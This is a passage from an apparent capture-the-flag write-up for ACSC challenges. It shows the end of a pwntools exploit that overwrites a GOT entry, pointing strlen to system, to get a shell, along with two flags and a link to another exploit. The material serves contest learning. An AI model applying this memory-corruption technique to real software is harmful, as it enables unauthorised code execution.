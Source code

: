     # Arbitrary Chunk (GOT overwrite)
    strlen = libc_base + 0x18b660# libc.symbols["strlen"]
    system = libc_base + libc.symbols["system"]
    print(hex(strlen))
    f("AAA=aaaa")
    f("delete:AAA")
    f("BBB=bbbb")
    f("edit:"+g(0x3660))
    sleep(0.1)
    r.send(g(0x3634))
    h = lambda x: p32(x & 0xffffffff)
    r.send("edit:"+h(strlen))
    sleep(0.1)
    r.send(h(system))

    r.interactive()
    return
{% endhighlight %}

`ACSC{PWN_1S_FUN_5W33T_D3liC1ous :)}`

### sysnote (pwn)

To be written, exploit for now: [link](https://gist.github.com/lordidiot/7990a49e1336b21abc6bd90c6f837cd6).

`ACSC{m0mmy, 1 r34lly h4t3 7hi5 n0te}`